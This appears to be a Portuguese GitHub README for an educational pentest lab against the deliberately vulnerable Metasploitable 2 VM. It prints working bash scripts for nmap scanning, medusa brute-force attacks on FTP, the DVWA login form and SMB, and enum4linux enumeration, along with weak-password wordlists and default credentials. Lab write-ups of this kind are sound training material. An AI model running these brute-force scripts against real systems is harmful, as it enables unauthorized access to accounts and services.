




# Pentest Lab: Metasploitable 2

Relatório de avaliação de segurança na máquina vulnerável **Metasploitable 2**, demonstrando exploração de falhas comuns em serviços de rede.

---

## 🎯 Serviços Explorados

* **FTP (vsftpd 2.3.4)** - Ataque de força bruta com credenciais fracas
* **SMB (Samba)** - Enumeração de compartilhamentos e autenticação vulnerável
* **DVWA (Apache/PHP)** - Quebra de autenticação em formulário web
* **Reconhecimento** - Varredura com `nmap` e enumeração de serviços

---

## 🛠 Ferramentas Utilizadas

* `nmap` - Varredura de portas e serviços
* `medusa` - Ataques de força bruta
* `enum4linux` - Enumeração SMB
* `smbclient` - Acesso a compartilhamentos
* `ftp` - Conexão FTP

---

## 📁 Estrutura do Repositório

```
text/
├── README.md
├── scripts/
│   ├── 01_reconhecimento.sh
│   ├── 02_ftp_attack.sh
│   ├── 03_web_attack.sh
│   ├── 04_smb_enumeration.sh
│   ├── 05_smb_attack.sh
│   └── run_all.sh
├── wordlists/
│   ├── users.txt
│   ├── pass.txt
│   ├── smb_users.txt
│   └── senhas_spray.txt
├── configs/
│   └── target.conf
└── images/
    ├── vwa_home.png
    ├── dvwa_login.png
    ├── ftp_login.png
    └── smb_shares.png
 

```

---

> ⚠ **Disclaimer**
> AVISO: Ambiente controlado para fins educacionais. Metasploitable 2 é deliberadamente vulnerável — **não** implantar em redes públicas.

---

## 🚀 Scripts de Automação

### `scripts/01_reconhecimento.sh`

```bash
#!/bin/bash
echo "[+] Iniciando reconhecimento do alvo..."
TARGET="192.168.1.18"

echo "[+] Testando conectividade..."
ping -c 3 $TARGET

echo "[+] Varredura de portas e serviços..."
nmap -sV -p 21,22,80,445,139 $TARGET

echo "[+] Reconhecimento concluído!"
```

---

### `scripts/02_ftp_attack.sh`

```bash
#!/bin/bash
echo "[+] Iniciando ataque FTP..."
TARGET="192.168.1.18"

echo "[+] Criando wordlists..."
echo -e "user\nmsfadmin\nadmin\nroot" > ../wordlists/users.txt
echo -e "123456\npassword\nqwerty\nmsfadmin" > ../wordlists/pass.txt

echo "[+] Testando conexão FTP..."
ftp $TARGET

echo "[+] Executando força bruta..."
medusa -h $TARGET -U ../wordlists/users.txt -P ../wordlists/pass.txt -M ftp -t 6

echo "[+] Ataque FTP concluído!"
```

---

### `scripts/03_web_attack.sh`

```bash
#!/bin/bash
echo "[+] Iniciando ataque web (DVWA)..."
TARGET="192.168.1.18"

echo "[+] Executando força bruta no formulário de login..."
medusa -h $TARGET -U ../wordlists/users.txt -P ../wordlists/pass.txt -M http \
-m PAGE:'/dvwa/login.php' \
-m FORM:'username=^USER^&password=^PASS^&Login=Login' \
-m 'FAIL=Login failed' -t 6

echo "[+] Credenciais padrão do DVWA:"
echo "URL: http://$TARGET/dvwa/login.php"
echo "Usuário: admin"
echo "Senha: password"

echo "[+] Ataque web concluído!"
```

---

### `scripts/04_smb_enumeration.sh`

```bash
#!/bin/bash
echo "[+] Iniciando enumeração SMB..."
TARGET="192.168.1.18"

echo "[+] Executando enum4linux..."
enum4linux -a $TARGET | tee smb_enum_output.txt

echo "[+] Verificando resultados..."
if [ -f smb_enum_output.txt ]; then
    echo "[+] Arquivo de saída salvo: smb_enum_output.txt"
    less smb_enum_output.txt
else
    echo "[-] Falha na enumeração SMB"
fi

echo "[+] Enumeração SMB concluída!"
```

---

### `scripts/05_smb_attack.sh`

```bash
#!/bin/bash
echo "[+] Iniciando ataque SMB..."
TARGET="192.168.1.18"

echo "[+] Criando wordlists específicas para SMB..."
echo -e "user\nmsfadmin\nservice" > ../wordlists/smb_users.txt
echo -e "password\n123456\nWelcome123\nmsfadmin" > ../wordlists/senhas_spray.txt

echo "[+] Executando força bruta SMB..."
medusa -h $TARGET -U ../wordlists/smb_users.txt -P ../wordlists/senhas_spray.txt -M smbnt -t 2 -T

echo "[+] Testando acesso com credenciais válidas..."
smbclient -L //$TARGET -U msfadmin

echo "[+] Ataque SMB concluído!"
```

---

### `scripts/run_all.sh` (Script Principal)

```bash
#!/bin/bash
echo "=== PENTEST AUTOMATIZADO - METASPLOITABLE 2 ==="
echo "Alvo: 192.168.1.18"
echo ""

# Tornar todos os scripts executáveis
chmod +x *.sh

# Executar sequência de ataques
./01_reconhecimento.sh
echo "----------------------------------------"
./02_ftp_attack.sh
echo "----------------------------------------"
./03_web_attack.sh
echo "----------------------------------------"
./04_smb_enumeration.sh
echo "----------------------------------------"
./05_smb_attack.sh

echo "=== TODOS OS ATAQUES CONCLUÍDOS ==="
```

---

## 📋 Arquivos de Configuração

### `configs/target.conf`

```bash
# Configurações do alvo
TARGET_IP="192.168.1.18"
TARGET_PORTS="21,22,80,445,139"

# Wordlists padrão
USERS_WORDLIST="../wordlists/users.txt"
PASS_WORDLIST="../wordlists/pass.txt"
SMB_USERS_WORDLIST="../wordlists/smb_users.txt"
SMB_PASS_WORDLIST="../wordlists/senhas_spray.txt"
```

---

## wordlists/ (Conteúdo)

**`users.txt`:**

```
user
msfadmin
admin
root
```

**`pass.txt`:**

```
123456
password
qwerty
msfadmin
```

**`smb_users.txt`:**

```
user
msfadmin
service
```

**`senhas_spray.txt`:**

```
password
123456
Welcome123
msfadmin
```
# Metasploitable2 Pentest

Estrutura de exemplo com scripts, wordlists, configs e imagens. **Apenas para fins educacionais**.

## Evidências (screenshots)

As imagens abaixo são evidências das explorações e do ambiente (Kali + Metasploitable2). Suba este repositório no GitHub e as imagens estarão em `images/`.









---

## Aviso Legal / Uso Responsável

Este repositório contém scripts e procedimentos para avaliar a segurança de sistemas (pentest). **Use apenas em ambientes controlados e com autorização explícita do proprietário do sistema**. A execução destes scripts em redes públicas ou em sistemas sem permissão constitui atividade ilegal em muitas jurisdições.

O autor não se responsabiliza por qualquer uso indevido deste material. Ao usar este repositório, você concorda em obedecer às leis aplicáveis e obter permissão prévia.

---

## Como usar

Clone o repositório:
```bash
git clone <url-do-repositorio>
cd metasploitable2-pentest
```

Execute todos os ataques (apenas em ambiente controlado, para fins educacionais):
```bash
cd scripts
./run_all.sh
```
Ou execute ataques individuais:

```bash
cd scripts
./01_reconhecimento.sh
./02_ftp_attack.sh
# etc...
```

---

## Estrutura
- `scripts/` - scripts de automação
- `wordlists/` - listas de usuário/senhas
- `configs/` - configuração do alvo
- `images/` - screenshots e evidências

---

## 📊 Resultados Obtidos

* ✅ **FTP:** Credenciais `msfadmin:msfadmin` exploradas
* ✅ **SMB:** Compartilhamentos enumerados e acessados
* ✅ **DVWA:** Login `admin:password` comprometido
* ✅ Múltiplos serviços vulneráveis identificados
* ✅ Enumeração completa de usuários e serviços

---
